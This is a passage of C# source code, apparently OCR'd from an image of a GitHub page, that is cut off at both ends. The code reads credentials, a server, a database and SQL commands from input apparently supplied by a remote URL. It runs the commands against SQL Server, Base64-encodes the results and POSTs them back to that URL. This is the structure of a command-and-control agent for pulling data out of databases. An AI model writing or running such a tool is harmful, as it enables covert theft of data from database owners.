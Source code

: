 ```csharp
            {
                useCurrentUser = true;
                server = lines[2];
                db = lines[3];
                sqlCommands = string.Join(Environment.NewLine, lines, 4, lines.Length - 4);
            }
            else
            {
                username = lines[0];
                password = lines[1];
                server = lines[2];
                db = lines[3];
                sqlCommands = string.Join(Environment.NewLine, lines, 4, lines.Length - 4);
            }

            string sqlResult = ExecuteSqlCommands(server, db, username, password, useCurrentUser, sqlCommands);

            // Base64 encode the result
            string base64Result = Convert.ToBase64String(Encoding.UTF8.GetBytes(sqlResult));

            // Send the result via POST request
            requestHandler.SendPostRequest(relativeUrl, base64Result);
        }
        else
        {
            Console.WriteLine("Usage: -w <base_url> -g <relative_url>");
        }
    }

    static string ExecuteSqlCommands(string server, string db, string username, string password, bool useCurrentUser, string sqlCommands)
    {
        string connectionString;

        if (useCurrentUser)
        {
            // Integrated Security: Use the current Windows user
            connectionString = $"Server={server};Database={db};Integrated Security=True;";
        }
        else
        {
            // SQL Authentication
            connectionString = $"Server={server};Database={db};User Id={username};Password={password};";
        }

        StringBuilder result = new StringBuilder();

        try
        {
            using (SqlConnection connection = new SqlConnection(connectionString))
            {
                connection.Open();

                string[] commands = sqlCommands.Split(new[] { ";" }, StringSplitOptions.RemoveEmptyEntries);
                foreach (var commandText in commands)
                {
                    using (SqlCommand command = new SqlCommand(commandText.Trim(), connection))
                    {
                        using (SqlDataReader reader = command.ExecuteReader())
                        {
```